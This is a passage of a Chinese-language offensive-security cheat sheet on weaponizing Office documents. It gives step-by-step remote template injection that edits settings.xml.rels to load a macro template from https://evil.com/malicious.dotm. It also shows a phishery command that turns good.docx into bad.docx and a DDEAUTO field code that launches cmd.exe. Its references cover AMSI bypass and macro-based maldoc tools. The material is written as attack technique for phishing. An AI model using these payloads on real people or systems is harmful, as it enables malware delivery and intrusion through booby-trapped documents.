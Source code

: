 ### 远程模板

1. 在Word模板.dotm文件中保存恶意宏。

2. 基于默认的MS Word文档模板创建一个良性的.docx文件。

3. 将步骤2中的文档保存为.docx格式。

4. 将步骤3中的文档重命名为.zip格式。

5. 解压步骤4中的文档。

6. **.\word_rels\settings.xml.rels** 包含对模板文件的引用。该引用被替换为我们第一步创建的恶意宏的引用。文件可以托管在Web服务器（HTTP）或WebDAV（SMB）上。

   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
   ```

   ```xml
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="https://evil.com/malicious.dotm" TargetMode="External"/></Relationships>
   ```

7. 文件再次压缩并重新命名为.docx。

### 模板注入工具

* https://github.com/JohnWoodman/remoteInjector
* https://github.com/ryhanson/phishery

```ps1
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] 打开Word文档：good.docx
[+] 将Word文档模板设置为：https://secure.site.local/docs
[+] 将注入后的Word文档保存到：bad.docx
[*] 注入的Word文档已保存！
```

## DOCX - DDE

* 插入 > 快速部件 > 字段
* 右键单击 > 切换字段代码
* `{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

## 参考资料

* [VBA RunPE 第一部分 - itm4n](https://itm4n.github.io/vba-runpe-part1/)
* [VBA RunPE 第二部分 - itm4n](https://itm4n.github.io/vba-runpe-part2/)
* [Office VBA AMSI 揭开恶意宏的面纱 - Microsoft](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)
* [绕过VBA的AMSI - Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [Evil Clippy MS Office Maldoc Assistant - Outflank](https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/)
* [旧学校邪恶的Excel 4.0宏 XLM - Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)
* [Excel 4 Macro Generator x86/x64 - bytecod3r](https://bytecod3r.io/excel-4-macro-generator-x86-x64/)
* [VBad - Pepitoh](https://github.com/Pepitoh/VBad)
* [Excel 4.0 Macro Function Reference PDF](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf)